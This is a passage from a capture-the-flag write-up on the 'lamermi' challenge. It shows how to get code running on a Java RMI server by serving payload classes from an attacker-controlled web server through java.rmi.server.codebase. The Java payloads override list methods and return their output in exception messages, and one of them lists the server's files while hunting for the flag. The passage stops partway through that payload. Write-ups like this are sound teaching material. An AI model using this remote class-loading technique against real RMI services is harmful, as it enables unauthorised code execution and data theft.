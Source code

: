 ```
		[...]
```
The server tries to load our class, but it doesn't know its class definition and fails.

Googling this error eventually lead to a [StackOverflow answer](https://stackoverflow.com/a/20938326/6762008) which tells us that the client has to provide a `java.rmi.server.codebase` setting, so that the server knows where to load our classes from. For this we need an HTTP server facing the internet; I used some free webspace provider, uploaded `Payload0.class` to `http://some-webserver/rmi/it/polictf/lamermi/Payload0.class` and specified `-Djava.rmi.server.codebase=http://some-webserver/rmi/`. When we now run our client again, we get the expected `Result: 1.5`.

But there's still one thing missing until we are able to execute arbitrary code and return its result: we have to overwrite some method of `List<Integer>` which gets called inside `average()` with our payload code, and we need a way to return results back to our client.
I used this payload to determine which methods are called inside `average()`:
```java
package it.polictf.lamermi;

import java.util.*;

public class Payload1 extends ArrayList<Integer> {

	public Integer get(int index) {
		throw new RuntimeException("get " + index);
	}

	public Iterator<Integer> iterator() {
		throw new RuntimeException("iterator");
	}

	public ListIterator<Integer> listIterator() {
		throw new RuntimeException("listIterator");
	}
}
```
Note that I have renamed the class to `Payload1`, because the server will only load unknown classes and since we submitted our previous payload the server knows the class `Payload0`. Of course we also have to upload `Payload1.class` to our webserver.

When we run this payload we get back a wrapped exception:
```
java.lang.RuntimeException: iterator
```
At this point I realised we can use the `throw new RuntimeException(string);` to send back any text to our client, which will come in handy for the next payloads.

## Getting the Flag

The flag is probably stored on the file system (maybe even in the current working directory), so let's list some files:
```java
package it.polictf.lamermi;

import java.util.*;
import java.io.*;

public class Payload2 extends ArrayList<Integer> {

	public Iterator<Integer> iterator() {
		File cwd = new File(".");
		String msg = cwd.getAbsolutePath() + ": ";
		for (String file : cwd.list())
			msg += file + ", ";
		throw new RuntimeException(msg);
	}
```